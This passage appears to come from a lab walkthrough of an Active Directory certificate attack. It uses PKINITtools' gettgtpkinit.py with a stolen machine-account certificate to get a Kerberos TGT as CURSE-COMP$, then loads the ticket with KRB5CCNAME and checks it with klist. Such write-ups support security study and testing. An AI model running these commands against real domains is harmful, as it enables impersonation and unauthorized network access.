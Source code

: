 ![Windows client looking for updates](assets/img/wireshark.png)

Since we got the certificate let's authenticate with PKINIT to the domain. We use then PKINITools  [PKINITools](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/) kit's gettgtpkinit.py to obtain our TGT:


```bash
~ python3 /opt/PKINITtools/gettgtpkinit.py -pfx-base64 \$(cat a.b64 ) 'jjk.local/CURSE-COMP$' 'curse-comp.ccache' -dc-ip 192.168.56.105
```
![Asking  for tgt with PKINIT](assets/img/Ask_TGT_PKINIT.png)


Once we got the TGT, we load it in memory with KRB5CCNAME export command. The klist command allows us to list the loaded Kerberos tickets, we can see that we have obtained a TGT as CURSE-COMP$, the machine account we ask certificate for.

```bash
~ export KRB5CCNAME=curse-comp.ccache
~ klist
```

![klist after w11 obtained TGT](assets/img/klist-w11.png)
